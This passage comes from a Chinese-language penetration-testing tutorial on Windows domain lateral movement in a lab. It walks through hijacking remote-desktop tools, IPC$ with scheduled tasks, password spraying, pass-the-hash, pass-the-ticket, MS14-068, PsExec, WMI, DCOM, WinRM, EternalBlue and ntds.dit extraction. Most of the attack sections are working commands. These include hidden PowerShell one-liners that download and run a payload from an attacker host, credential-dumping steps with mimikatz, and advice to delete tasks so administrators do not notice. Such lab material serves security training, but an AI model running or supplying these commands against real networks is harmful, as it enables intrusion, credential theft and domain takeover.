那么右键可以导出这个注册表信息。下次只需点击注册表文件，即可导入注册表内容。那么就可以绕过安装界面。

	

所以只需在靶机上传注册表文件提前运行，然后上传向日葵运行即可成功。

```
shell regedit -s 3.reg
shell SunloginClient.exe
```

	

查看向日葵的配置信息。

```
shell type C:\ProgramData\Oray\SunloginClient\config.ini
```

ency_pwd就是远程连接的密码，但是被加密了，向日葵11版本是可以进行解密的，后续高版本比较麻烦。

	

	

	

使用python工具进行解密。于是即可用向日葵实现远控

	

### 利用todesk横向移动

==todesk只能用旧版来做这个实验。并且要注意server靶机能够连外网，且dns服务器能正常实验。且账户必须是默认的administrator.现在新版的todesk每次开启进程都会刷新其中的配置文件的临时密码，并且旧版已经不能连接了，所以已经没法复现这个漏洞了==

todesk远控工具可以静默安装。所以黑客可以把todesk上传到靶机。

注意:安装包名不能和主程序名字一样。

		

静默安装

	

安装完成后自动运行，接下来查看配置文件

其中clientId是todesk的连接账号，tempAuthPassEx是临时的连接密码。

```
shell type C:\"Program Files"\ToDesk\config.ini
```

		

运行ToDesk后会在默认安装目录下生成一个config.ini配置文件，存储的有设备代码、临时密码、安全密码以及登 录用户和密码等重要敏感信息，但密码都经过ToDesk特有加密算法加密，所以不能通过解密得到明文密码，只需 要找到目标主机ToDesk中的tempAuthPassEx临时密码或authPassEx安全密码，将它们覆盖到我们本地ToDesk中 的tempAuthPassEx，重启ToDesk即可得到明文密码

使用cs进行文件替换。下图这个是自己todesk攻击机上的密码。我们可以使用自己的todesk配置文件来替代掉靶机上的配置文件。

	

删除并重新上传自己的配置文件。

	

查找todesk进程。

	

		

将这两个进程停掉。

```
shell taskkill /pid 8784 /F
shell taskkill /pid 1688 /F
```

		

将todesk重新开启

```
shell C:\"Program Files"\ToDesk\ToDesk.exe
```

	

确认把temppAuthPass修改后，即可开始使用todesk远控.

	

### 利用GoToHttp横向移动

```
GotoHTTP工作在B2C模式。使用远程控制时，您不必在每一台电脑上都安装远程软件。不管身处何处，有浏览器
就能访问远程电脑。 即使公司网络管控，仍然可以控制或被控制。支持文件传输、无人值守、剪切板同步、远程语
音、远程摄像头、多显示器支持
下载：http://www.gotohttp.com/goto/download.12x
```

下载以后把这个文件上传到靶机win7。

	

直接运行，这个远控无需安装。

	

在运行目录下会生成一个配置文件，查看配置文件里面有连接地址和账号密码

	

于是根据host网址，登录该网站，然后实验电脑ID和控制码1349即可远程进行横向

	

复现成功。

	

### 利用RustDesk横向移动

RustDesk远程桌面软件，开箱即用，无需任何配置。

把rustdesk上传到靶机win7

	

运行这个文件。

	

查看配置文件，其中id是远程连接的账号，密码目前为空，所以需要复制这段文本，随便设置六位的密码。

```
shell type C:\Users\Administrator\AppData\Roaming\RustDesk\config\RustDesk.toml
```

	

	

将这个上传上去，覆盖到原先的配置文件。

	

查找对应的进程,并把该进程杀死。

```
shell tasklist
```

	

	

重新上线，此时查看配置文件，就会密码了。

	

	

于是开始远控。

	

### IPC配合计划任务横向移动

答疑:有的时候使用管理员组的用户，抓起密码会显示权限不够无法访问，原因在于管理员组的用户默认是没有绕过UAC验证的，而管理员组内置的Administrator是绕过UAC认证的。所以才能够抓取密码。

```
IPC的利用条件
1、开启了139、445端口
ipcs可以实现远程登录及对默认共享资源的访问,而139端口的开启表示NetBIOS协议的应 用。通过
139、445( Windows2000)端口,可以实现对共享文件打印机的访问。因此,一般来讲,ipcs需要139、445
端口的支持。
2、管理员开启了默认共享
默认共享是为了方便管理员进行远程管理而默认开启的,包括所有的逻辑盘(c$、d$、e$等和系统目录
winnt或 windows( adminS)通过ipc$,可以实现对这些默认共享目录的访问
```

首先查看DC域控是否有开启默认共享，默认打开C盘的共享。

	

如果管理员组的用户直接查询明文密码，会失败。所以需要右键提权，绕过UAC。如果还是无法查询密码，那就提权到是system。

		

于是再次查询。有的时候这些管理员的密码可能是一样的，于是就可以利用这些密码进行IPC连接别的主机。

	

		

IPC( Internet ProcessConnection)共享“命名管道”的资源,是为了实现进程间通信而开放的命名管道。 IPC可以通过验证用户名和密码获得相应的权限,通常在远程管理计算机和查看计算 机的共享资源时使 用。 通过ipc$,可以与目标机器建立连接。利用这个连接,不仅可以访问目标机器中的文件,进行上传、下载等 操作,还可以在目标机器上运行其他命令,以获取目标机器的目录结构、用户列 表等信息。

建立IPC连接。

```
shell net use \\192.168.15.140\IPC$ "密码" /user:账户名
```

	

	

查看对方主机的目录信息

```
shell dir \\192.168.15.140\c$
```

	

远程查看DC的进程信息

	

复制木马文件到dc

```
shell copy C:\Users\jack\Desktop\shell.exe \\192.168.15.140\C$
```

	

远程创建定时计划

```
shell schtasks /create /u administrator /p 域管密码 /s 192.168.15.140 /tn test /sc onstart /tr c:\shell.exe /f
```

	

执行计划任务

```
schtasks /run /u 用户名 /p 域管密码 /s 192.168.15.140 /i /tn "test"
```

	

横向移动成功，拿到域控。

	

最后攻打完毕，防止运维人员发现，需要删除计划任务

```
schtasks /delete /s 192.168.15.140 /tn "test" /f
如果无法访问，那么就加入/u和/p参数分别填入域管帐号和密码
```

	

清除IPC连接。

	

### IPC配合系统服务横向

这个没复现成功，权限不够无法访问。暂时原因不知

获取到密码并着手横向时，却发现定时计划服务没有启用。这时候我们就可以远程建立服务，然后再启用服务来运行我们想要运行的命令。

首先一样的需要建立IPC连接，并且复制木马文件到靶机。

然后远程创建服务，来启动木马文件。

```
sc \\192.168.15.140 create test binpath="cmd.exe /c c:\shell.exe"
```

	

然后开启创建的test服务。

	

于是机器上线成功。

	

最后也可以删除服务。

	

### 密码喷洒和域用户枚举横向移动

```
域内用户枚举攻击原理
正常域用户登录主机，我们可以通过 "net user /domain"来列举出域内的用户。但是当我们用非域用户
进行登录时，是不能使用 "net user /domain"这条命令的。或者当主机不在域内但是能与域控通信时，
以上两种情况我们可以通过以下方法对域内用户进行枚举。
Kerberos本身是一种基于身份认证的协议，在 Kerberos 协议认证的 第一阶段AS-REQ ，当用户不存在
时，返回包提示错误。当用户名存在，密码正确和密码错误时，AS-REP的返回包不一样。所以可以利用
这点，对域内进行域用户枚举和密码喷洒攻击。在AS-REQ阶段客户端向AS发送用户名，AS对用户名进
行验证，用户存在和不存在返回的数据包不一样，所以，根据AS的返回包来对域用户进行枚举
```

如果cs只获得了本地账户的会话，那么无法直接获得域用户的信息，那么可以使用kerbrute工具进行枚举爆破域用户。

首先把工具和账号字典传到靶机上。

```
shell kerbrute.exe userenum --dc 192.168.15.140 -d hack.com user.txt
```

于是根据这个字典爆破出两个域用户。

	

```
密码喷洒攻击原理
在确认用户存在后，客户端又会发送一个AS-REQ请求，如果密码正确，则返回AS-REP。否则返回KRB5KDC_ERP_PREAUTH_FAILED，在常规的爆破中，我们都是先用很多密码去碰撞一个账号，这样很容易导致账号被锁定。而密码喷洒就是先用一个密码去碰撞很多账号，此方法能有效的避免账号被锁定的问题
```

将域用户保存到1.txt字典，并上传到靶机，来进行密码喷洒攻击。

	

于是喷洒出两个域用户的密码了。

```
kerbrute.exe passwordspray -d hack.com 1.txt Admin@123
```

	

接下来介绍另一款密码喷洒工具，CrackMapExec（⼜名 CME）是⼀款⾮常好⽤的密码喷洒攻击的⼯具，在 Kali Linux 默认已经安装好。

kali喷洒出其中两个账户的密码

```
crackmapexec smb 192.168.15.140 -u 1.txt -p 'Admin@123' --continue-on-success
```

	

### 哈希传递攻击PTH横向移动

```
哈希传递攻击原理
大多数渗透测试人员都听说过哈希传递(Pass The Hash)攻击。该方法通过找到与账户相关 的密码散列
值(通常是 NTLM Hash)来进行攻击。在域环境中,用户登录计算机时使用的大都是域账号,大量计算机在
安装时会使用相同的本 地管理员账号和密码,因此,如果计算机的本地管理员账号和密码也是相同的,攻击
者就能使用哈希传递攻击的方法登录内网中的其他计算机。同时,通过哈希传递攻击,攻击者不需要花时
间破解密码散列值(进而获得密码明文)。 在Windows网络中,散列值就是用来证明身份的(有正确的用户
名和密码散列值,就能通过验证),而微软自己的产品和工具显然不会支持这种攻击,于是,攻击者往往会使
用第三方工具来 完成任务。在 WindowsServer2012R2及之后版 本的操作系统中,默认在内存中不会记
录明文密码,因此,攻击者往往会使用工具将散列值传递到其他计算机中,进行权限验证,实现对远程计 算
机的控制。
哈希传递条件 
哈希传递攻击的前提：有管理员的 NTLM Hash ，并且目标机器开放445端口。
Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
Windows Vista 之后的机器，只能是administrator(SID为500)用户的NTLM哈希值才能进行哈希传递攻击，其
他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。
在工作组环境中： Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。 Windows
Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用
户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。
在域环境中： 只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈
希传递攻击，攻击成功后，可以访问域内任何一台机器。
```

域环境要演示PTH横向移动，需要先学习普通用户可以绕过UAC提权的问题。

前提条件:接下里这个实验，会以两个本地工作组的机器展开，都未加入域，server2008(192.168.15.145)作为被控机，来横向win7虚拟机(192.168.15.115)。并且server2008以管理员组的用户hsw登录(不能使用administrator,因为绕过UAC的管理员可以直接远程访问对方的目录)

server2008无法直接远程访问win7的目录。

	

将被控server2008提权到system,抓取密码,得到其中的NTLM哈希值。

```
logonpasswords
```

	

将mimikatz工具上传到远控机，并且执行。cmd以管理员身份运行，这样管理员组的其他管理员才能绕过UAC验证

	

于是根据这个NTLM哈希值传递到其他本地机，看看是否和这个哈希值相同。因为本地管理员的密码可能会和其他本地的管理员密码相同。显示ok说明哈希传递成功。并且此时会弹出一个新的cmd框。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:192.168.15.115 /ntlm:570a9a65db8fba761c1008a51d4c95ab
```

	

这里可以访问win7的目录

	

于是可以复制木马文件，并设置计划任务运行。

```
copy C:\Users\hsw\Desktop\shell.exe \\192.168.15.115\C$
schtasks /create /s 192.168.15.115 /tn test /sc onstart /tr c:\shell.exe /ru system /f
schtasks /run /s 192.168.15.115 /i /tn "test"
```

	

此时win7横向完毕。

	

另一种方式也可以哈希传递攻击。在cs上直接点击，右键靶机然后点击哈希传递攻击

	

用户名是靶机的用户，密码是自己远控管理员的密码NTLM哈希，domain填写靶机ip,如果是域环境填写域名。

	

此时靶机被上线。

	

### 密钥传递攻击PTK横向移动

这个没有复现成功。

```
PTK介绍:
WinXP/2003/Vista/2008 ，以及未打 KB2871997 补丁之前的 Win7/2008r2/8/2012，这些环境我们都
可以使用NTLM哈希传递,对于8.1/2012r2，安装补丁kb2871997的Win 7/2008r2/8/2012，可以使用AES keys代替NTLM来进行验证。如果没有打该补丁则无法使用密钥横向移动。

什么是KB2871997补丁?
KB2871997：禁止本地管理员账户用于远程连接，这样就无法以本地管理员用户的权限执行wmi、
psexec、schtasks、at和访问文件共享。
这个补丁发布后常规的Pass The Hash已经无法成功，唯独默认的 Administrator (SID 500)账号例外，
利用这个账号仍可以进行Pass The Hash远程连接，即使administrator修改了名字
但是还可以通过AES密钥来替代NTLM验证进行横向的操作，其实这个补丁挺鸡肋的，不用AES密钥照样
也可以用NTLM，只是需要Administrator（SID 500），都拿到机器了，Administrator还不容易吗？这
个补丁唯一的好处就是减少存储在内存中的凭据数据，也就是让wdigest协议认证的凭据不会存储在
lsass.exe，这样子当你dump lsass.exe的时候你就会发现，wdigest协议中的凭据你就看不到了！

```

```
实验前提:
我们下载已经控制了2008-1(已加入域)主机，发现他是admin用户登录系统，通过抓取密码发现域管账号存在内存
中，但是没有明文，PTH攻击也失效，这个时候采用PTK攻击来横向移动域控。

```

首先2008主机需要安装补丁才能抓到AES密钥。且让AD域使用域管理员jack远程登录2008主机。

	

远控机server2008，提权到system后抓取所有账户的aes密钥。	

```
mimikatz sekurlsa::ekeys
```

注意:两个用户密码相同，但是aes密钥可能不同

其中有域用户jack，而jack是域管理员。复制其中的aes密钥

	

传递密钥给jack,于是弹出弹窗就是域管权限，即可实现横向。

```
sekurlsa::pth /user:jack /domain:hack.com /aes256:0b7162f33742ba082a8aca14b0fe987a44c4101266bdbe1f02bf95405233da8a
```

	

```
dir \\dc.hack.com\c$
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\shell.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

	

	

	

### 票据传递攻击PTT横向移动

```
票据传递介绍 
要想使用mimikatz的哈希传递功能,必须具有本地管理员权限。 mimikatz同样提供了不需要 本地管理员
权限进行 横向渗透测试的方法,
例如票据传递( PassThe Ticket,PTT)
票据传递是基于kerberos认证的一种攻击方式，常用来做后渗透权限维持。
黄金票据攻击利用的前提是得到了域内krbtgt用户的NTLM哈希或AES-256的值。
白银票据攻击利用的前提是得到了域内服务账号的HTML哈希或AES-256的值。
票据传递攻击一般分为两种
1、自己制作票据
2、传递内存中的票据
```

比如说内网当中，域管理员曾经远程连接登陆过2008-01，那么就会在内存中留下票据。于是可以从远控2008导出票据。

```
privilege::debug
sekurlsa::tickets /export
```

其中具有域管理员的票据。

	

首先删除所有的票据。

```
shell klist purge
```

	

虽然显示无法访问域控机，但是可以导入域管的票据。

	

导入票据成功。

```
mimikatz kerberos::ptt [0;1cf6e4]-2-0-60a10000-Administrator@krbtgt-HACK.COM.kirbi
mimikatz kerberos::ptt [0;1cf6e4]-2-1-40e10000-Administrator@krbtgt-HACK.COM.kirbi
```

		

于是即可访问dc域控机的目录

```
shell dir \\dc.hack.com\c$
如果输入ip不能访问就换成域名
```

	

于是复制木马到域控，并设置定时任务运行。

==注意:如果出现拒绝访问，一定要把ip换成域名==

```
shell copy C:\Users\hsw\Desktop\shell.exe \\dc.hack.com\c$
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\shell.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

	

	

	

于是域控上线成功。

	

### ms-14068传递横向

```
MS14-068介绍:
ms14-068漏洞主要通过伪造域管的TGT，将普通用户权限提权为域管权限，以此来控制域控。只要服
务器未打ms14-068补丁（KB3011780），在server 2000以上的域控服务器中，都可进行利用。

MS14-068的利用条件:
1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
```

```
环境介绍 
域内机器：192.168.41.145 windows server 2008
域控：192.168.15.150 windows server 2008(DC)
```

查看该域用户的sid.

```
shell whoami /all
```

	

首先域内机器使用普通域用户jack。获取到jack的密码后和sid后，即可利用MS14-068这个漏洞.

首先把该漏洞工具和mimikatz放置被控机器2008

	

利用该工具伪造TGT。

格式如下:

	

```
MS14-068.exe -u jack@test.com -p Admin@123 -s S-1-5-21-3833123336-2252609068-1242730686-1105 -d dc.test.com
```

	

生成伪造的TGT文件。

	

导入伪造的票据。

```
mimikatz kerberos::ptc TGT_jack@test.com.ccache
```

	

于是即可访问该域控的目录，并且上传木马文件，生成计划任务执行即可。

```
shell copy C:\Users\jack\Desktop\shell.exe \\dc.test.com\c$
shell schtasks /create /s dc.test.com /tn test /sc onstart /tr c:\shell.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

	

于是域控拿下。

	

第二种方式是使用另一个工具goldenPac.exe，此工具是impacket工具包里的，它是MS14-068+psexec的组合，因此使用起来非常方便快捷。

将该工具放置靶机，然后运行。

	

```
goldenPac.exe test.com/jack:Admin@123@dc.test.com
```

	

运行完，这个cmd窗口就变成了域控的窗口了，可以对域控进行操作。

	

### psExec远程CMD横向移动

```
PsExec介绍 
psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，
只需要对方开启admin$共享和ipc$ (该共享默认开启，依赖于445端口)。但是，假如目标主机开启了防
火墙（防火墙禁止445端口连接），psexec也是不能使用的，会提示找不到网络路径。由于psexec是
Windows提供的工具，所以杀毒软件将其列在白名单中。
下载地址 https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools

PsExec使用条件 
1、具有正确的凭证（内存凭证、账号密码、账号NTLM Hash）
2、能建立IPC链接（也就是需要通过smb认证的），且目标机器开启了共享（默认开启的），并且目标
共享中必须有admin$共享
```

```
实验环境介绍:
server2008-01(192.168.15.145)远控机，本地管理员账户hsw
server2012(192.168.15.140)域控机(被攻击机)，域管理员administrator
```

```
Psexec常用参数:
psexec \\ip -u administrator -p admin cmd 进⼊半交互式shell
PsExec -accepteula \\192.168.108.101 -s cmd.exe 建立交互的shell
psexec \\ip - uadministrator -p admin -w c:\cmd 进⼊交互式shell，且c:\是⽬标机器的⼯
作⽬录
psexec \\ip -u administrator -p admin whoami all 执行命令
psexec \\ip -u administrator -p admin -d c:\beacon.exe 执行文件
psexec \\ip -u administrator -p admin -h -d c:\beacon.exe UAC的⽤⼾权限执行文件
```

首先将psexec工具上传到靶机。

	

与域控建立IPC连接。

```
shell net use \\192.168.15.140\IPC$ "Admin@123" /user:administrator
```

	

把木马复制到域控

```
shell copy C:\Users\hsw\Desktop\shell.exe \\192.168.15.140\c$
```

	

由于第一次使用该工具会弹出同意框来点击交互，cs可以使用-accepteula来默认同意，来绕过同意框执行。

```
shell psexec.exe -accepteula \\192.168.15.140 -h -d c:\shell.exe
```

	

于是域控上线。

	

### wmic远程执行命令横向移动

```
psec不仅容易被查杀，并且很容易留下日志信息会被溯源，所以逐渐很少使用。

什么是WMI:
WMI是Windows在Powershell还未发布前，微软用来管理Windows系统的重要数据库工具，WMI本身
的组织架构是一个数据库架构，WMI 服务使用 DCOM或 WinRM 协议,自从 PsExec 在内网中被严格监
控后，越来越多的反病毒厂商将 PsExec 加入了黑名单，于是黑客们渐渐开始使用 WMI 进行横向移
动。通过渗透测试发现，在使用 wmiexec 进行横向移动时，windows 操作系统默认不会将 WMI 的操
作记录在日志中。因此很多 APT 开始使用 WMI 进行攻击。
WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具） ，提供了从命令行
接口和批处理脚本执行系统管理的支持。
简单来说：wmic就是wmic.exe，位于windows目录底下，是一个命令行程序。WMIC可以以两种模式
执行：交互模式(Interactive mode)和非交互模式(Non-Interactive mode)，WMI就是 Windows
Management Instrumentation（Windows 管理规范）。它是 Windows 中的一个核心管理技术。

注意:wmic命令需要本地管理员或域管理员才可以进行正常使用，普通权限用户若想要使用wmi，可以修改
普通用户的ACL，不过修改用户的ACL也需要管理员权限，普通用户使用wmic。以下命令均在
2008R2、2012R2、2016上进行测试,部分命令在虚拟机中测试不行。
```

生成powershell后门脚本

	

	

在当前目录下，启动web。

	

仍然使用server2008(192.168.15.145)横向攻击域控(192.168.15.140)。

wmic进行上线,把ps1放到公网，可以使用python 开启http服务提供下载(哪怕开启防火墙也可以上线。)

```
wmic /NODE:192.168.15.140 /user:administrator /password:Admin@123 PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))\""
```

```
注意:如果管理员换成administrator,只要拿到IPC连接或者说黄金票据，wmic无需输入明文密码也可以远程执行命令。但是管理员组的其他管理员使用该命令为拒绝访问。

shell wmic /NODE:192.168.15.140  PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))\""
```

	

拿下域控。

	

```
除了windows自带的wmic，接下来介绍一个工具wmiexec，它是一个即有全交互也有半交互的远程命令执行工具，有python版本的pe版本可运用于多种环 境，包括webshell环境、rdp环境、socks环境等。
```

使用方式如下

	

```
第一种传递明文账号和密码的方式远程执行命令。
wmiexec.exe administrator:Admin@123@192.168.15.140 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))"
```

这个必须在远控机执行，在cs执行会出错。最后运行完DC被控制了。

	

	

```
第二种方式，若不知道明文密码，那可以通过传递密码哈希来远程执行，前提是本地管理员的哈希密码和域管理员是一样的。
```

得到本地管理员的哈希，于是碰运气尝试。

	

```
wmiexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:570a9a65db8fba761c1008a51d4c95ab administrator@192.168.15.140 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))"
```

	

	

### smb远程执行命令横向移动

```
SMB介绍 
SMB 全称是 Server Message Block 翻译过来是服务器信息块，它也是一种客户端到服务器的通信协
议。除此之外，SMB 协议也被称为请求-回复协议。 客户端与服务器建立连接后,客户端可以向服务器发
送SMB命令允许用户访问共享、打开、读取或者是写入文件。
利用条件：开启了445端口

smbexec工具的使用:
smbexec为impacket工具中的工具，操作简单，容易被杀，使用时无需先进行IPC连接
```

使用方式

	

只需知道对方的域用户和密码，即可通过使用该工具获得到域控的shell.

```
smbexec.exe hack.com/administrator:Admin@123@192.168.15.140
```

	

当然如果不知道对方的域用户的密码，可以查看自己的本地密码，大多数人本地密码和域用户的密码是一样的。导出本地用户的密码哈希。

	

	

于是碰巧使用本地管理员的哈希，来看看能否和域管理员的密码相同，由于相同所以直接认证通过，那么就拿到域控的shell了。

注意:这里指的哈希是lm:NTLM的哈希格式，即微软的特定哈希格式。

	

### DCOM远程执行命令横向移动

```
DCOM介绍 
DCOM（分布式组件对象模型）是微软的一系列概念和程序接口。它支持不同的两台机器上的组件间的
通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网
络中另一台计算机上的服务器程序对象发送请求，使用DCOM进行横向移动的优势之一在于，在远程主
机上执行的进程将会是托管COM服务器端的软件

DCOM横向前提
1、需要关闭系统防火墙
2、必须拥有管理员权限
3、在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户
```

可以在powershell输入下面的命令来获取DCOM列表。

	

```
首先在server2008远控机进行测试。发现可以打开计算器。
被攻击机DC域控(192.168.15.140)
1、通过PowerShell与DCOM进行远程交互，此外，我们只需要提供一个DCOM ProgID和一个IP地址，
然后，它就从远程返回一个COM对象的实例。
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
2、然后执行如下命令，我们就可以调用"ExecuteShellCommand"方法在远程主机上启动进程
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, "/c calc.exe", "Minimized")

```

	

```
注意:这几种方式，不用输入账号密码就可以控制域控，原因在于默认会使用本地管理员的账号和密码去来测试域管是否正确。
首先使用 [activator] 和 [type] 类的静态方法来创建 MMC20.Application COM 对象实例，连接到远程主机 192.168.41.147。
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.15.140"))
然后通过 ExecuteShellCommand 在远程主机上执行命令。使用 cmd.exe 调用 PowerShell，并通过 PowerShell 从远程服务器http://192.168.15.141:8089/shell.ps1下载并执行脚本，运行时窗口将会以最小化方式显示。
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))","Minimized")
```

	

DC域控被控制。

	

```
也可以使用ShellWindows远程执行命令。
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.15.140")).item().Document.Application.ShellExecute("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))","c:windows\system32",$null,0)
```

	

DC域控被控制。

	

```
ShellBrowserWindow远程执行命令,适用于Windows 10和Windows Server 2012 R2等版本的系统。
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.15.140")).Document.Application.shellExecute("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))","c:windows\system32",$null,0)
```

	

DC域控被控制。

	

	

把该工具传入到远控机。然后使用该工具远程执行命令。但是这个需要输入域管的账号和密码

```
dcomexec.exe [hack.com/]administrator:Admin@123@192.168.15.140 whoami
```

	

### winRM远程执行命令横向移动

```
WinRM介绍 
WinRM（Windows远程管理）是Microsoft 在Windows中对WS-Management的实现，它使系统可以跨通用网络访问或交换管理信息。利用脚本对象或内置的命令行工具，WinRM可以与可能具有基板管理控制器（BMC）的任何远程计算机一起使用，以获取数据。也可以获取基于Windows的计算机（包括WinRM）。 WinRM默认端口5985（HTTP端口）或5986（HTTPS端口），若配置了WINRM远程服务，当我们拿到一个管理员账户时，可以使用远程连接进行命令执行操作winrm通过HTTP（5985）或HTTPS SOAP（5986）端口来进行通信。
注意:只有winserver2012及以后的操作系统，会默认打开5985端口。并且有个好处就是server2012哪怕开了防火墙，也拦不住这个远程命令执行。
```

```
Winrs.exe 是一个内置的命令行工具,它允许远程命令的执行在WinRm的适当的有资格的用户
```

查看域控的5985端口是否开放

	

使用方式

	

```
通过域控主机的5985端口，和域管账号和密码，远程执行命令
winrs -r:http://192.168.15.140:5985 -u:administrator -p:Admin@123 "whoami"
```

	

```
winrm set winrm/config/Client @{TrustedHosts="*"}
```

	

添加信任后，于是即可远程让域控执行命令了。

	

```
然后可以使用5985端口远程传递命令，让域管去执行下载恶意ps脚本执行，就会被cs控制。
winrs -r:http://192.168.15.140:5985 -u:administrator -p:Admin@123 "cmd.exe /c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:8089/shell.ps1'))"
```

	

	

### 系统漏洞ms17010横向移动

```
使用server2012(远控机)攻击win7(靶机)，ms17010是永恒之蓝漏洞，专门对win7生效。
```

将永恒之蓝放到远控机上。然后到指定目录执行命令

```
在win7上安装永恒之蓝的后门。
Eternalblue-2.2.0.exe --TargetIp 192.168.15.115 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig outlog.txt
```

		

cs生成后门shell的dll

	

	

把shell.dll文件放入到该目录下。

	

```
开始永恒之蓝攻击
Doublepulsar-1.3.1.exe --InConfig Doublepulsar-1.3.1.xml --TargetIp 192.168.15.115 --TargetPort 445 --Protocol SMB --Architecture x64 --Function RunDLL --DllPayload shell.dll --payloadDllOrdinal 1 --ProcessName lsass.exe --ProcessCommandLine "" --NetworkTimeout 60
```

于是成功攻击，但是按理来说会在cs生成win7的控制，但是没有。

	

## 第五章 域控安全和跨域攻击

### 多种方式提取和移动ntds.dit文件

```
ntdsutil.exe 是一个为活动目录提供管理机制的命令行工具，使用 ntdsutils.exe 可以维护和管理
活动目录数据库、控制单个主机操作、创建应用程序目录分区等，该工具默认安装在域控服务器上，可
以在域控制器上直接操作，支持windows server 2003、2008、2012。提取过程分为3步：
```

该命令是域控自带的。这里是假设域控被拿下后远控的操作。

第一步:创建快照，保存其中的快照id

```
ntdsutil.exe snapshot "activate instance ntds" create q q
```

	

第二步，挂载快照

```
ntdsutil.exe snapshot "mount {76b8ca14-17be-402b-bc59-980b9f934666}" q q
```

	

首先把挂载的目录名复制下来。

	

第三步:然后桌面下创建ntds文件夹，然后把挂载文件夹中的ntds.dit复制到ntds文件夹下。

```
copy C:\$SNAP_202410111713_VOLUMEC$\Windows\NTDS\ntds.dit C:\Users\Administrator\Desktop\ntds\ntds.dit
```

	

第四步：删除快照

```
ntdsutil.exe snapshot "umount {76b8ca14-17be-402b-bc59-980b9f934666}" "delete {76b8ca14-17be-402b-bc59-980b9f934666}" q q
```

	

```
vssadmin1是Windows Server 2008及Windows 7系统提供的VSS管理工具，它可以用于创建或删除卷
影副本，列出卷影副本的信息（只能管理系统Provider创建的卷影副本）。还可以用于显示所有安装的
所有卷影副本写入程序（writers）和提供程序（providers），以及改变卷影副本存储空间（即所谓的
“diff空间”）的大小等。支持的操作系统：Server 2008、Server 2012
```

```
创建C盘的快照
vssadmin create shadow /for=c:
```

	

复制文件出来

```
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit C:\Users\Administrator\Desktop\ntds\ntds.dit
```

	

```
删除这个卷影
vssadmin delete shadows /for=c: /quiet
```

	

```
vssown.vbs和vssadmin类似，它是由Tim Tomes开发完成的，它可以创建和删除卷影副本，以及启动
和停止卷影复制服务
```

首先把vssown.vbs脚本上传到域控机。

第一步：启动卷影复制服务

```
cscript vssown.vbs /start
```

	

第二步:创建一个C盘的卷影副本

```
cscript vssown.vbs /create c
```

	

第三步:列出当前卷影副本

```
cscript vssown.vbs /list
```

	

```
复制卷影当中的ntds.dit到域控的指定目录下。
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit C:\Users\Administrator\Desktop\ntds\ntds.dit
```

	

删除卷影副本

```
cscript vssown.vbs /delete {263981DC-6118-42CB-A51E-99E41951CAAA}
```

	

```
